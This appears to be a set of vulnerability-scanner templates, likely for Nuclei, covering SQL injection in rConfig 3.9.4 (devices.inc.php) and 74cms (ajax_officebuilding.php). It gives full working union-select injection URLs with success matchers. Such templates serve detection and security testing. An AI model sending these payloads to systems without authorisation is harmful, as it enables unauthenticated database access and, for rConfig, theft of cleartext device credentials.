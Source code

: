 **Type - word**
- part - body
- words
    1. password_verify() expects parameter

---
# rConfig 3.9.4 - SQL Injection
## Description
- rConfig 3.9.4 and previous versions have unauthenticated devices.inc.php SQL injection. Because nodes' passwords are stored in cleartext by default, this vulnerability leads to lateral movement, granting an attacker access to monitored network devices.
- severity - critical
- tags - cve,cve2020,rconfig,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/devices.inc.php?search=True&searchField=antani'+union+select+(select+concat(0x223e3c42523e5b70726f6a6563742d646973636f766572795d)+limit+0,1),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL+--+&searchColumn=n.id&searchOption=contains
### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. [project-discovery]
- part - body

---
# 74cms - ajax_officebuilding.php SQL Injection
## Description
- A SQL injection vulnerability exists in 74cms 3.2.0 via the x parameter to ajax_officebuilding.php.

- severity - critical
- tags - cve,cve2020,74cms,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/plus/ajax_officebuilding.php?act=key&key=錦%27%20a<>nd%201=2%20un<>ion%20sel<>ect%201,2,3,md5({{num}}),5,6,7,8,9%23
### Matchers

